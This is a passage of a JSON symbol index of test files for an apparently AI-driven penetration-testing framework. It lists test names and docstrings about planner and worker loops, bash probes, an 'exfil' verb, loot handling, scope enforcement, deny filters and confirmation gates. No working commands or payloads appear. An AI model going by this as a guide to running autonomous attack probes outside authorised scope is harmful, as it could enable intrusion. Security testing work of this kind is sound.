"tests/test_loop_auto_orchestrator.py", "kind": "module", "label": "test_loop_auto_orchestrator.py", "language": "py", "sha256": "c3143c93cbf1051f", "symbol_count": 18, "symbols": [{"kind": "function", "line": 6, "name": "test_exfil_auto_registered_as_verb", "signature": "def test_exfil_auto_registered_as_verb()"}, {"kind": "function", "line": 15, "name": "test_service_tokens_split_and_alias", "signature": "def test_service_tokens_split_and_alias()"}, {"kind": "function", "line": 22, "name": "test_addon_hits_rank_specific_before_generic", "signature": "def test_addon_hits_rank_specific_before_generic()"}, {"kind": "function", "line": 31, "name": "test_propose_addon_intents_shape_and_tool_collapse", "signature": "def test_propose_addon_intents_shape_and_tool_collapse()"}, {"kind": "function", "line": 40, "name": "test_steps_for_lazy_addon_routes_to_command", "signature": "def test_steps_for_lazy_addon_routes_to_command()"}, {"kind": "function", "line": 49, "name": "test_worker_routes_verbs_via_bound_shell", "signature": "def test_worker_routes_verbs_via_bound_shell(tmp_path, monkeypatch)"}, {"kind": "function", "line": 85, "name": "test_worker_without_shell_reports_honestly", "signature": "def test_worker_without_shell_reports_honestly(tmp_path, monkeypatch)"}, {"doc": "BDD: bash output arrives line by line and is fully captured.", "kind": "function", "line": 109, "name": "test_execute_streaming_streams_and_captures", "signature": "def test_execute_streaming_streams_and_captures()"}, {"doc": "BDD: a hung command is killed and reported as TIMEOUT.", "kind": "function", "line": 119, "name": "test_execute_streaming_timeout_reports", "signature": "def test_execute_streaming_timeout_reports()"}, {"doc": "BDD: shell verbs tee captured output to the live observer.", "kind": "function", "line": 127, "name": "test_execute_shell_verb_forwards_output", "signature": "def test_execute_shell_verb_forwards_output()"}, {"doc": "BDD: loop mode answers prompts with '' and restores input after.", "kind": "function", "line": 141, "name": "test_autonomous_mode_suppresses_and_restores_input", "signature": "def test_autonomous_mode_suppresses_and_restores_input(monkeypatch)"}, {"kind": "function", "line": 153, "name": "test_lazy_addon_command_registered", "signature": "def test_lazy_addon_command_registered()"}, {"doc": "A probe whose binary is absent is skipped and explained as a fact.", "kind": "function", "line": 163, "name": "test_worker_skips_missing_binary_and_records_gap", "signature": "def test_worker_skips_missing_binary_and_records_gap(tmp_path, monkeypatch)"}, {"doc": "New service assets wake the orchestrator with matched addon names.", "kind": "function", "line": 194, "name": "test_service_trigger_fires_with_addon_hits", "signature": "def test_service_trigger_fires_with_addon_hits(tmp_path, monkeypatch)"}, {"kind": "class", "line": 59, "name": "_Shell", "signature": "class _Shell"}, {"kind": "class", "line": 131, "name": "_Shell", "signature": "class _Shell"}, {"kind": "method", "line": 60, "name": "onecmd", "signature": "def onecmd(self, command)"}, {"kind": "method", "line": 132, "name": "onecmd_plus_hooks", "signature": "def onecmd_plus_hooks(self, command)"}]}, {"doc": "Broadcast board timeline regression tests (lazy 0.3.12 parity).", "id": "tests/test_loop_broadcast.py", "kind": "module", "label": "test_loop_broadcast.py", "language": "py", "sha256": "1c6fd6b41ed17bae", "symbol_count": 3, "symbols": [{"kind": "function", "line": 6, "name": "_patched_engine", "signature": "def _patched_engine(tmp_path, monkeypatch)"}, {"doc": "BDD: timeline rows expand without extra requests.", "kind": "function", "line": 15, "name": "test_broadcast_rows_carry_neighbours_and_assets", "signature": "def test_broadcast_rows_carry_neighbours_and_assets(tmp_path, monkeypatch)"}, {"doc": "BDD: search supports #id and kind filter.", "kind": "function", "line": 36, "name": "test_broadcast_search_id_and_kind_filter", "signature": "def test_broadcast_search_id_and_kind_filter(tmp_path, monkeypatch)"}]}, {"doc": "Cold debounce + planner overview parity (lazy 0.3.8 coldgraph).", "id": "tests/test_loop_cold_overview.py", "kind": "module", "label": "test_loop_cold_overview.py", "language": "py", "sha256": "8df8e71a9743ffbd", "symbol_count": 6, "symbols": [{"kind": "function", "line": 6, "name": "_patched_engine", "signature": "def _patched_engine(tmp_path, monkeypatch)"}, {"kind": "function", "line": 15, "name": "_old_facts", "signature": "def _old_facts(graph, count, prefix)"}, {"doc": "BDD: fresh facts survive the anti-flap window.", "kind": "function", "line": 28, "name": "test_compact_debounce_keeps_fresh_hot", "signature": "def test_compact_debounce_keeps_fresh_hot(tmp_path, monkeypatch)"}, {"doc": "BDD: untouched facts fold into digests after the window.", "kind": "function", "line": 41, "name": "test_compact_folds_stale_facts", "signature": "def test_compact_folds_stale_facts(tmp_path, monkeypatch)"}, {"doc": "BDD: 20-50 uncovered cold nodes fold on a round, no no-op window.", "kind": "function", "line": 56, "name": "test_planner_round_folds_minor_window", "signature": "def test_planner_round_folds_minor_window(tmp_path, monkeypatch)"}, {"doc": "BDD: planner sees every finding plus done-intent totals inline.", "kind": "function", "line": 77, "name": "test_graph_overview_carries_findings_and_done_totals", "signature": "def test_graph_overview_carries_findings_and_done_totals(tmp_path, monkeypatch)"}]}, {"doc": "Loop ForceGraph context regression tests (lazy 0.3.12 fidelity).", "id": "tests/test_loop_force_graph.py", "kind": "module", "label": "test_loop_force_graph.py", "language": "py", "sha256": "a355a1673d289128", "symbol_count": 4, "symbols": [{"kind": "function", "line": 6, "name": "_patched_engine", "signature": "def _patched_engine(tmp_path, monkeypatch)"}, {"doc": "BDD: /api/loop_graph payload renders directly in ForceGraph.", "kind": "function", "line": 15, "name": "test_loop_graph_is_forcegraph_ready", "signature": "def test_loop_graph_is_forcegraph_ready(tmp_path, monkeypatch)"}, {"doc": "BDD: planner sees hubs, islands and heat-ordered probes.", "kind": "function", "line": 32, "name": "test_graph_context_surfaces_hubs_and_next", "signature": "def test_graph_context_surfaces_hubs_and_next(tmp_path, monkeypatch)"}, {"doc": "SDD: candidates on hot graph surface outrank id-order probes.", "kind": "function", "line": 53, "name": "test_planner_force_ranks_connected_surface", "signature": "def test_planner_force_ranks_connected_surface(tmp_path, monkeypatch)"}]}, {"doc": "Guard audit filters + tool_use_id source jump (lazy 0.3.11/0.3.12 parity).", "id": "tests/test_loop_guard_audit.py", "kind": "module", "label": "test_loop_guard_audit.py", "language": "py", "sha256": "b12ce36e02bfcebd", "symbol_count": 4, "symbols": [{"kind": "function", "line": 6, "name": "_patched_engine", "signature": "def _patched_engine(tmp_path, monkeypatch)"}, {"doc": "BDD: every tool call carries a stable id for source jump.", "kind": "function", "line": 15, "name": "test_check_mints_tool_use_id", "signature": "def test_check_mints_tool_use_id(tmp_path, monkeypatch)"}, {"doc": "BDD: approval records filter by status and source.", "kind": "function", "line": 31, "name": "test_audit_filters_action_source_query", "signature": "def test_audit_filters_action_source_query(tmp_path, monkeypatch)"}, {"doc": "BDD: approval source jumps to the exact tool execution.", "kind": "function", "line": 48, "name": "test_lookup_jumps_to_execution", "signature": "def test_lookup_jumps_to_execution(tmp_path, monkeypatch)"}]}, {"doc": "Intent delete modes regression tests (lazy 0.3.12 parity).", "id": "tests/test_loop_intent_delete.py", "kind": "module", "label": "test_loop_intent_delete.py", "language": "py", "sha256": "6322a6194933145c", "symbol_count": 4, "symbols": [{"kind": "function", "line": 8, "name": "_patched_engine", "signature": "def _patched_engine(tmp_path, monkeypatch)"}, {"doc": "BDD: fake delete keeps node, outputs and lineage with a reason.", "kind": "function", "line": 17, "name": "test_soft_delete_keeps_outputs_and_notifies", "signature": "def test_soft_delete_keeps_outputs_and_notifies(tmp_path, monkeypatch)"}, {"doc": "BDD: deletion without a reason is rejected.", "kind": "function", "line": 37, "name": "test_soft_delete_requires_reason", "signature": "def test_soft_delete_requires_reason(tmp_path, monkeypatch)"}, {"doc": "BDD: true delete cascades exclusive descendants, keeps shared/goals.", "kind": "function", "line": 46, "name": "test_hard_delete_removes_exclusive_keeps_shared", "signature": "def test_hard_delete_removes_exclusive_keeps_shared(tmp_path, monkeypatch)"}]}, {"doc": "LLM retry layers, wall-clock settle, stall-guard (lazy 0.3.8/0.3.9 parity).", "id": "tests/test_loop_llm_resilience.py", "kind": "module", "label": "test_loop_llm_resilience.py", "language": "py", "sha256": "87d0a254eee87f99", "symbol_count": 18, "symbols": [{"kind": "function", "line": 6, "name": "_patched_engine", "signature": "def _patched_engine(tmp_path, monkeypatch)"}, {"doc": "BDD: a connected-but-empty model is replayed, not abandoned.", "kind": "function", "line": 15, "name": "test_empty_reply_replays_before_failover", "signature": "def test_empty_reply_replays_before_failover(tmp_path, monkeypatch)"}, {"doc": "BDD: empty budget spent on one member, the chain still answers.", "kind": "function", "line": 34, "name": "test_empty_budget_exhausted_moves_to_next_member", "signature": "def test_empty_budget_exhausted_moves_to_next_member(tmp_path, monkeypatch)"}, {"doc": "BDD: backend error banners are failures, never planner intents.", "kind": "function", "line": 54, "name": "test_error_reply_fails_over_instead_of_becoming_content", "signature": "def test_error_reply_fails_over_instead_of_becoming_content(tmp_path, monkeypatch)"}, {"doc": "BDD: pool commands pass scope, binary and deny filters before running.", "kind": "function", "line": 71, "name": "test_worker_llm_steps_filtered_by_scope_and_tooling", "signature": "def test_worker_llm_steps_filtered_by_scope_and_tooling(tmp_path, monkeypatch)"}, {"doc": "BDD: expired deadline stops the work and keeps partial steps.", "kind": "function", "line": 95, "name": "test_wall_clock_settles_partial_not_hard_kill", "signature": "def test_wall_clock_settles_partial_not_hard_kill(tmp_path, monkeypatch)"}, {"doc": "BDD: goals unmet plus zero open work always yields a next intent.", "kind": "function", "line": 114, "name": "test_stall_guard_forces_intent_when_nothing_open", "signature": "def test_stall_guard_forces_intent_when_nothing_open(tmp_path, monkeypatch)"}, {"doc": "BDD: explicit quota exhaustion rotates the task chain permanently.", "kind": "function", "line": 135, "name": "test_task_llm_chain_quota_failover", "signature": "def test_task_llm_chain_quota_failover(tmp_path, monkeypatch)"}, {"doc": "BDD: raw prompts/replies are recorded only while enabled.", "kind": "function", "line": 169, "name": "test_raw_llm_recording_toggle", "signature": "def test_raw_llm_recording_toggle(tmp_path, monkeypatch)"}, {"doc": "BDD: prompt context budget is persisted and clamped.", "kind": "function", "line": 190, "name": "test_llm_context_budget_roundtrip", "signature": "def test_llm_context_budget_roundtrip(tmp_path, monkeypatch)"}, {"doc": "BDD: a bound task chain drives planner LLM calls, not the global pool.", "kind": "function", "line": 202, "name": "test_planner_uses_bound_task_chain", "signature": "def test_planner_uses_bound_task_chain(tmp_path, monkeypatch)"}, {"kind": "function", "line": 23, "name": "scripted", "signature": "def scripted(model, prompt, max_tokens)"}, {"kind": "function", "line": 42, "name": "first_empty_then_ok", "signature": "def first_empty_then_ok(model, prompt, max_tokens)"}, {"kind": "function", "line": 61, "name": "error_then_ok", "signature": "def error_then_ok(model, prompt, max_tokens)"}, {"kind": "function", "line": 79, "name": "scripted", "signature": "def scripted(model, prompt, max_tokens)"}, {"kind": "function", "line": 147, "name": "scripted", "signature": "def scripted(model, prompt, max_tokens)"}, {"kind": "function", "line": 160, "name": "scripted_next", "signature": "def scripted_next(model, prompt, max_tokens)"}, {"kind": "function", "line": 213, "name": "scripted", "signature": "def scripted(model, prompt, max_tokens)"}]}, {"doc": "Lazy mentions multi-type search and scroll pagination.", "id": "tests/test_loop_mentions.py", "kind": "module", "label": "test_loop_mentions.py", "language": "py", "sha256": "05a3ba67dfdabe2a", "symbol_count": 2, "symbols": [{"kind": "function", "line": 6, "name": "test_mentions_search_and_cursor", "signature": "def test_mentions_search_and_cursor(tmp_path, monkeypatch)"}, {"kind": "function", "line": 16, "name": "test_mentions_parse_caps_and_trusts_ids", "signature": "def test_mentions_parse_caps_and_trusts_ids()"}]}, {"doc": "Loop milestone panel: inferred stage states stay honest.", "id": "tests/test_loop_progress.py", "kind": "module", "label": "test_loop_progress.py", "language": "py", "sha256": "d0a5d4382965cb1c", "symbol_count": 11, "symbols": [{"doc": "Minimal overview dict as ExplorationGraph.overview returns it.", "kind": "function", "line": 20, "name": "_overview", "signature": "def _overview()"}, {"doc": "Milestones mirror the orchestrator chain one to one.", "kind": "function", "line": 28, "name": "test_chain_has_fourteen_stages", "signature": "def test_chain_has_fourteen_stages()"}, {"doc": "Empty overview: task done (exists), scope current, rest pending.", "kind": "function", "line": 34, "name": "test_fresh_task_shows_first_stage_current", "signature": "def test_fresh_task_shows_first_stage_current()"}, {"doc": "Facts flip enrich/worker/guard/traffic; findings flip the finding leg.", "kind": "function", "line": 44, "name": "test_progress_advances_with_evidence", "signature": "def test_progress_advances_with_evidence()"}, {"doc": "Done status closes compact and report too.", "kind": "function", "line": 58, "name": "test_finished_task_all_green", "signature": "def test_finished_task_all_green()"}, {"doc": "Intent buckets split pending/open/done for the footer.", "kind": "function", "line": 69, "name": "test_snapshot_counts_intent_states", "signature": "def test_snapshot_counts_intent_states()"}, {"doc": "Panel builds for empty and full snapshots (no terminal needed).", "kind": "function", "line": 79, "name": "test_panel_renders_without_live", "signature": "def test_panel_renders_without_live()"}, {"doc": "Cells are Text objects: literal [green] tags can never leak.", "kind": "function", "line": 88, "name": "test_render_contains_no_markup_strings", "signature": "def test_render_contains_no_markup_strings()"}, {"doc": "Non-terminal sinks get one line per milestone, never full redraws.", "kind": "function", "line": 104, "name": "test_line_mode_prints_only_on_stage_change", "signature": "def test_line_mode_prints_only_on_stage_change(capsys)"}, {"doc": "Transcript lines lose escape codes and carriage returns.", "kind": "function", "line": 126, "name": "test_sanitize_line_strips_ansi_and_cr", "signature": "def test_sanitize_line_strips_ansi_and_cr()"}, {"doc": "Live worker output keeps SGR colors for the transcript.", "kind": "function", "line": 134, "name": "test_sanitize_line_keeps_ansi_when_asked", "signature": "def test_sanitize_line_keeps_ansi_when_asked()"}]}, {"doc": "Scope ownership, port-aware traffic search, role-based evidences (lazy parity).", "id": "tests/test_loop_scope_traffic_evidence.py", "kind": "module", "label": "test_loop_scope_traffic_evidence.py", "language": "py", "sha256": "39caccbeecad1e1e", "symbol_count": 7, "symbols": [{"kind": "function", "line": 6, "name": "_patched_engine", "signature": "def _patched_engine(tmp_path, monkeypatch)"}, {"doc": "BDD: root domain owns subdomains/services, decoys stay out.", "kind": "function", "line": 15, "name": "test_scope_covers_by_ownership_not_substring", "signature": "def test_scope_covers_by_ownership_not_substring(tmp_path, monkeypatch)"}, {"doc": "BDD: CIDR scope hits direct URLs on in-range hosts.", "kind": "function", "line": 29, "name": "test_scope_cidr_covers_url_embedded_ip", "signature": "def test_scope_cidr_covers_url_embedded_ip(tmp_path, monkeypatch)"}, {"doc": "BDD: ip scope owns the host on every port.", "kind": "function", "line": 41, "name": "test_scope_ip_covers_any_port_url", "signature": "def test_scope_ip_covers_any_port_url(tmp_path, monkeypatch)"}, {"doc": "BDD: a CIDR scope admits in-range targets and blocks the rest.", "kind": "function", "line": 54, "name": "test_worker_scope_enforcement_cidr", "signature": "def test_worker_scope_enforcement_cidr(tmp_path, monkeypatch)"}, {"doc": "BDD: same-host rows on other ports never mix into the result.", "kind": "function", "line": 71, "name": "test_traffic_search_host_port_aware", "signature": "def test_traffic_search_host_port_aware(tmp_path, monkeypatch)"}, {"doc": "BDD: findings bind many evidences with roles, notes and order.", "kind": "function", "line": 88, "name": "test_finding_evidence_roles_notes_order", "signature": "def test_finding_evidence_roles_notes_order(tmp_path, monkeypatch)"}]}, {"doc": "Multi-session chat, persistent side questions, spawn inheritance (lazy 0.3.9).", "id": "tests/test_loop_spawn_side.py", "kind": "module", "label": "test_loop_spawn_side.py", "language": "py", "sha256": "92b76e25c054fad9", "symbol_count": 4, "symbols": [{"kind": "function", "line": 6, "name": "_patched_engine", "signature": "def _patched_engine(tmp_path, monkeypatch)"}, {"doc": "BDD: one task holds many dialogue sessions that never interleave.", "kind": "function", "line": 15, "name": "test_chat_sessions_stay_independent", "signature": "def test_chat_sessions_stay_independent(tmp_path, monkeypatch)"}, {"doc": "BDD: side threads survive restarts and list per session.", "kind": "function", "line": 36, "name": "test_side_questions_persist_and_recall", "signature": "def test_side_questions_persist_and_recall(tmp_path, monkeypatch)"}, {"doc": "BDD: child task reads parent scope/findings, parents stay intact.", "kind": "function", "line": 53, "name": "test_spawn_inherits_scope_and_findings_read_only", "signature": "def test_spawn_inherits_scope_and_findings_read_only(tmp_path, monkeypatch)"}]}, {"doc": "Store file writes stay atomic under parallel workers (race regression).", "id": "tests/test_loop_store_race.py", "kind": "module", "label": "test_loop_store_race.py", "language": "py", "sha256": "d11d7dd23d6e7a1b", "symbol_count": 2, "symbols": [{"doc": "BDD: concurrent round workers never crash on a shared temp file.", "kind": "function", "line": 8, "name": "test_save_json_survives_parallel_writers", "signature": "def test_save_json_survives_parallel_writers(tmp_path, monkeypatch)"}, {"kind": "function", "line": 16, "name": "writer", "signature": "def writer(worker)"}]}, {"doc": "Supervision upgrades: repetition watchdog, stack priors, prompt masking.", "id": "tests/test_loop_supervision.py", "kind": "module", "label": "test_loop_supervision.py", "language": "py", "sha256": "0870a62af61f1303", "symbol_count": 9, "symbols": [{"doc": "Return an engine whose stores live entirely under tmp_path.", "kind": "function", "line": 6, "name": "_patched_engine", "signature": "def _patched_engine(tmp_path, monkeypatch)"}, {"doc": "Redirect intel routing log and priors under tmp_path.", "kind": "function", "line": 16, "name": "_isolate_intel", "signature": "def _isolate_intel(tmp_path, monkeypatch)"}, {"doc": "LLM pool double with no members (deterministic, no network).", "kind": "class", "line": 25, "name": "_DeadPool", "signature": "class _DeadPool"}, {"doc": "Neutralize every pool the worker path may consult.", "kind": "function", "line": 37, "name": "_kill_llm", "signature": "def _kill_llm(monkeypatch)"}, {"doc": "BDD: three identical consecutive steps settle instead of looping.", "kind": "function", "line": 46, "name": "test_repetition_watchdog_settles", "signature": "def test_repetition_watchdog_settles(tmp_path, monkeypatch)"}, {"doc": "BDD: repeat stacks learn faster, unseen stacks keep default order.", "kind": "function", "line": 75, "name": "test_stack_priors_prefer_same_stack", "signature": "def test_stack_priors_prefer_same_stack(tmp_path, monkeypatch)"}, {"doc": "BDD: payload secrets never reach cloud backends, loot still does.", "kind": "function", "line": 99, "name": "test_prompt_context_masks_configured_only", "signature": "def test_prompt_context_masks_configured_only(tmp_path, monkeypatch)"}, {"doc": "Return no members so heuristic paths run.", "kind": "method", "line": 28, "name": "members", "signature": "def members(self)"}, {"doc": "Return empty reply.", "kind": "method", "line": 32, "name": "complete", "signature": "def complete(self)"}]}, {"doc": "Worker cross-work trace tools (lazy 0.3.10 parity).", "id": "tests/test_loop_worker_traces.py", "kind": "module", "label": "test_loop_worker_traces.py", "language": "py", "sha256": "eb69b2a8fdfea730", "symbol_count": 8, "symbols": [{"kind": "function", "line": 6, "name": "_patched_engine", "signature": "def _patched_engine(tmp_path, monkeypatch)"}, {"kind": "function", "line": 15, "name": "_seed_two_works", "signature": "def _seed_two_works(engine, task_id)"}, {"doc": "BDD: keyword search hits every work without knowing intent ids.", "kind": "function", "line": 27, "name": "test_search_all_spans_works_without_intent", "signature": "def test_search_all_spans_works_without_intent(tmp_path, monkeypatch)"}, {"doc": "BDD: lock onto a work, list the step flow, fetch one step in full.", "kind": "function", "line": 40, "name": "test_trace_steps_and_single_step", "signature": "def test_trace_steps_and_single_step(tmp_path, monkeypatch)"}, {"doc": "BDD: worker keeps node_detail for cross-work lookups.", "kind": "function", "line": 57, "name": "test_worker_lane_binds_node_detail", "signature": "def test_worker_lane_binds_node_detail(tmp_path, monkeypatch)"}, {"doc": "BDD: a new hint fires an explicit planner trigger round.", "kind": "function", "line": 65, "name": "test_add_hint_emits_explicit_planner_trigger", "signature": "def test_add_hint_emits_explicit_planner_trigger(tmp_path, monkeypatch)"}, {"doc": "BDD: unbinding bash from the worker lane stops probes cold.", "kind": "function", "line": 81, "name": "test_worker_bash_unbound_blocks_without_execution", "signature": "def test_worker_bash_unbound_blocks_without_execution(tmp_path, monkeypatch)"}, {"doc": "BDD: unbinding intent from the planner lane silences planning.", "kind": "function", "line": 100, "name": "test_planner_intent_unbound_emits_nothing", "signature": "def test_planner_intent_unbound_emits_nothing(tmp_path, monkeypatch)"}]}, {"doc": "call_tool dispatches through the handler registry.  SDD contract: ``_TOOL_HANDLERS`` (populated by ``@register_handler``) is checked before the legacy ``if/elif`` fallback inside ``call_tool``. No ``if/elif`` branch may duplicate a registered name (such branches are unreachable dead code), and migrated handlers must stay registered under their tool names.", "id": "tests/test_mcp_dispatch.py", "kind": "module", "label": "test_mcp_dispatch.py", "language": "py", "sha256": "2dea0d6e3dbe43e8", "symbol_count": 6, "symbols": [{"kind": "function", "line": 23, "name": "_registered", "signature": "def _registered()"}, {"kind": "function", "line": 40, "name": "_fallback_branches", "signature": "def _fallback_branches()"}, {"kind": "class", "line": 51, "name": "TestRegistryDispatch", "signature": "class TestRegistryDispatch"}, {"kind": "method", "line": 52, "name": "test_no_dead_duplicate_branches", "signature": "def test_no_dead_duplicate_branches(self)"}, {"kind": "method", "line": 56, "name": "test_migrated_handlers_registered", "signature": "def test_migrated_handlers_registered(self)"}, {"kind": "method", "line": 61, "name": "test_migrated_handlers_absent_from_fallback", "signature": "def test_migrated_handlers_absent_from_fallback(self)"}]}, {"doc": "Tests for the high/medium/low impact MCP improvements.  Covers the pure-function helper module (skills.lazyown_mcp_helpers) and the wiring inside skills.lazyown_mcp: - is_likely_credential / audit_tasks - evidence_freshness - build_target_context (host + port filters, provenance, freshness) - evidence_grep with scope filters - preflight_command (binary present, OS match, would_duplicate) - JobStore async submit + status - take_snapshot / diff_snapshot lifecycle - needs_confirmation gate  The MCP server itself is large and is exercised through small focused integration tests for the new tool handlers (target_context, tasks_cleanup, evidence_grep, session_diff) that monkey-patch SESSIONS_DIR onto a tmp_path.", "id": "tests/test_mcp_improvements.py", "kind": "module", "label": "test_mcp_improvements.py", "language": "py", "sha256": "584ccf24dc8e10f6", "symbol_count": 34, "symbols": [{"kind": "function", "line": 74, "name": "test_is_likely_credential_classifies", "signature": "def test_is_likely_credential_classifies(value, expect_real, expect_reason)"}, {"kind": "function", "line": 84, "name": "test_is_likely_credential_handles_non_string", "signature": "def test_is_likely_credential_handles_non_string()"}, {"kind": "function", "line": 92, "name": "test_parse_task_value_complete", "signature": "def test_parse_task_value_complete()"}, {"kind": "function", "line": 103, "name": "test_parse_task_value_truncated", "signature": "def test_parse_task_value_truncated()"}, {"kind": "function", "line": 110, "name": "test_parse_task_value_no_payload", "signature": "def test_parse_task_value_no_payload()"}, {"kind": "function", "line": 117, "name": "test_audit_tasks_drops_timestamps_and_urls", "signature": "def test_audit_tasks_drops_timestamps_and_urls()"}, {"kind": "function", "line": 141, "name": "test_audit_tasks_respects_min_confidence", "signature": "def test_audit_tasks_respects_min_confidence()"}, {"kind": "function", "line": 154, "name": "test_evidence_freshness_missing", "signature": "def test_evidence_freshness_missing(tmp_path)"}, {"kind": "function", "line": 160, "name": "test_evidence_freshness_fresh", "signature": "def test_evidence_freshness_fresh(tmp_path)"}, {"kind": "function", "line": 170, "name": "test_evidence_freshness_stale", "signature": "def test_evidence_freshness_stale(tmp_path)"}, {"kind": "function", "line": 182, "name": "_seed_sessions", "signature": "def _seed_sessions(tmp_path)"}, {"kind": "function", "line": 195, "name": "test_build_target_context_filters_by_port", "signature": "def test_build_target_context_filters_by_port(tmp_path)"}, {"kind": "function", "line": 218, "name": "test_build_target_context_no_port_returns_all", "signature": "def test_build_target_context_no_port_returns_all(tmp_path)"}, {"kind": "function", "line": 227, "name": "test_evidence_grep_finds_in_loot_scope", "signature": "def test_evidence_grep_finds_in_loot_scope(tmp_path)"}, {"kind": "function", "line": 237, "name": "test_evidence_grep_invalid_regex", "signature": "def test_evidence_grep_invalid_regex(tmp_path)"}, {"kind": "function", "line": 244, "name": "test_evidence_grep_truncates", "signature": "def test_evidence_grep_truncates(tmp_path)"}, {"kind": "function", "line": 256, "name": "test_preflight_detects_duplicate", "signature": "def test_preflight_detects_duplicate(tmp_path)"}, {"kind": "function", "line": 270, "name": "test_preflight_flags_missing_payload_keys", "signature": "def test_preflight_flags_missing_payload_keys(tmp_path)"}, {"kind": "function", "line": 281, "name": "test_preflight_os_mismatch", "signature": "def test_preflight_os_mismatch(tmp_path)"}, {"kind": "function", "line": 297, "name": "test_jobstore_runs_command_and_reports_done", "signature": "def test_jobstore_runs_command_and_reports_done()"}, {"kind": "function", "line": 317, "name": "test_jobstore_captures_failure", "signature": "def test_jobstore_captures_failure()"}, {"kind": "function", "line": 335, "name": "test_jobstore_unknown_id", "signature": "def test_jobstore_unknown_id()"}, {"kind": "function", "line": 340, "name": "test_jobstore_list_orders_newest_first", "signature": "def test_jobstore_list_orders_newest_first()"}, {"kind": "function", "line": 353, "name": "test_diff_first_run_reports_first_run", "signature": "def test_diff_first_run_reports_first_run(tmp_path)"}, {"kind": "function", "line": 360, "name": "test_diff_picks_up_changes", "signature": "def test_diff_picks_up_changes(tmp_path)"}, {"kind": "function", "line": 380, "name": "test_confirmation_required_for_destructive_command", "signature": "def test_confirmation_required_for_destructive_command()"}, {"kind": "function", "line": 385, "name": "test_confirmation_skipped_for_benign", "signature": "def test_confirmation_skipped_for_benign()"}, {"kind": "function", "line": 389, "name": "test_confirmation_required_for_destructive_tools", "signature": "def test_confirmation_required_for_destructive_tools()"}, {"doc": "Reload skills.lazyown_mcp pointing at an isolated SESSIONS_DIR.", "kind": "function", "line": 397, "name": "_fresh_mcp_module", "signature": "def _fresh_mcp_module(tmp_path)"}, {"kind": "function", "line": 414, "name": "test_handler_target_context_via_helper", "signature": "def test_handler_target_context_via_helper(tmp_path)"}, {"kind": "function", "line": 421, "name": "test_handler_tasks_cleanup_dry_run", "signature": "def test_handler_tasks_cleanup_dry_run(tmp_path)"}, {"kind": "function", "line": 436, "name": "test_evidence_grep_handler_ignores_binaries", "signature": "def test_evidence_grep_handler_ignores_binaries(tmp_path)"}, {"kind": "function", "line": 300, "name": "runner", "signature": "def runner(cmd, timeout)"}, {"kind": "function", "line": 320, "name": "runner", "signature": "def runner(cmd, timeout)"}]}, {"doc": "Contract for the unified MCP lazy-import helper.  SDD contract: ``skills/mcp_lazy.ensure_optional`` owns the cache-check / import / fail-closed skeleton. Every ``_ensure_*`` wrapper in ``skills/lazyown_mcp.py`` must delegate to it instead of repeating the skeleton, and the helper must preserve the observable semantics: cached value returned untouched, successful loader binds names and yields True, failing loader yields False without raising.", "id": "tests/test_mcp_lazy.py", "kind": "module", "label": "test_mcp_lazy.py", "language": "py", "sha256": "f28714d2d5ffc502", "symbol_count": 11, "symbols": [{"kind": "class", "line": 42, "name": "TestEnsureOptional", "signature": "class TestEnsureOptional"}, {"kind": "class", "line": 86, "name": "TestWrappersDelegate", "signature": "class TestWrappersDelegate"}, {"kind": "method", "line": 43, "name": "test_success_binds_and_caches", "signature": "def test_success_binds_and_caches(self)"}, {"kind": "method", "line": 58, "name": "test_cached_value_returned_untouched", "signature": "def test_cached_value_returned_untouched(self)"}, {"kind": "method", "line": 66, "name": "test_exception_fails_closed", "signature": "def test_exception_fails_closed(self)"}, {"kind": "method", "line": 75, "name": "test_false_loader_with_fallback", "signature": "def test_false_loader_with_fallback(self)"}, {"kind": "method", "line": 87, "name": "test_all_wrappers_delegate_to_helper", "signature": "def test_all_wrappers_delegate_to_helper(self)"}, {"kind": "function", "line": 47, "name": "loader", "signature": "def loader(ns)"}, {"kind": "function", "line": 61, "name": "loader", "signature": "def loader(ns)"}, {"kind": "function", "line": 69, "name": "loader", "signature": "def loader(ns)"}, {"kind": "function", "line": 78, "name": "loader", "signature": "def loader(ns)"}]}, {"doc": "Contract tests for the MCP sitrep recommender embedding.  SDD contract: ``_sitrep_recommendations`` adapts ``recommender.recommend_and_save`` output (``command``/``confidence``/ ``reason``) into the sitrep shape and never forwards positional arguments into the recommender.", "id": "tests/test_mcp_recommender_embed.py", "kind": "module", "label": "test_mcp_recommender_embed.py", "language": "py", "sha256": "89b364cb423303c1", "symbol_count": 8, "symbols": [{"doc": "Import skills/lazyown_mcp.py reusing the boyscout SDK-stub recipe.", "kind": "function", "line": 15, "name": "_load_mcp_module", "signature": "def _load_mcp_module()"}, {"kind": "function", "line": 25, "name": "test_maps_recommender_fields", "signature": "def test_maps_recommender_fields(monkeypatch)"}, {"kind": "function", "line": 44, "name": "test_never_forwards_positional_arguments", "signature": "def test_never_forwards_positional_arguments(monkeypatch)"}, {"kind": "function", "line": 59, "name": "test_returns_error_entry_on_failure", "signature": "def test_returns_error_entry_on_failure(monkeypatch)"}, {"kind": "function", "line": 71, "name": "test_reports_unavailable_recommender", "signature": "def test_reports_unavailable_recommender(monkeypatch)"}, {"kind": "function", "line": 81, "name": "test_limits_suggestions", "signature": "def test_limits_suggestions(monkeypatch)"}, {"kind": "function", "line": 48, "name": "fake_recommend", "signature": "def fake_recommend()"}, {"kind": "function", "line": 62, "name": "explode", "signature": "def explode()"}]}, {"doc": "Tests for ``modules/metrics.py``.  Covers the durable telemetry recorder added to surface command duration, success rate, p95 and top failures. The in-memory :class:`MetricsRegistry` used by the C2 stack is also exercised so any future refactor that breaks the existing Prometheus path is caught here.", "id": "tests/test_metrics.py", "kind": "module", "label": "test_metrics.py", "language": "py", "sha256": "4402040e3382feb7", "symbol_count": 14, "symbols": [{"doc": "Return a recorder writing to *tmp_path* / metrics.jsonl.", "kind": "function", "line": 35, "name": "_build_recorder", "signature": "def _build_recorder(tmp_path)"}, {"doc": "The legacy in-memory counter registry keeps its contract.", "kind": "function", "line": 42, "name": "test_legacy_registry_inc_and_render", "signature": "def test_legacy_registry_inc_and_render()"}, {"doc": "A single ``record`` call writes one JSONL entry with the duration.", "kind": "function", "line": 57, "name": "test_recorder_appends_record_line", "signature": "def test_recorder_appends_record_line(tmp_path)"}, {"doc": "A negative ``duration_ms`` is clamped to zero.", "kind": "function", "line": 83, "name": "test_recorder_clamps_negative_duration", "signature": "def test_recorder_clamps_negative_duration(tmp_path)"}, {"doc": "``summarize`` produces success rate, mean and p95 per command.", "kind": "function", "line": 92, "name": "test_summarize_aggregates_by_command", "signature": "def test_summarize_aggregates_by_command(tmp_path)"}, {"doc": "Window in seconds drops events older than the cutoff.", "kind": "function", "line": 124, "name": 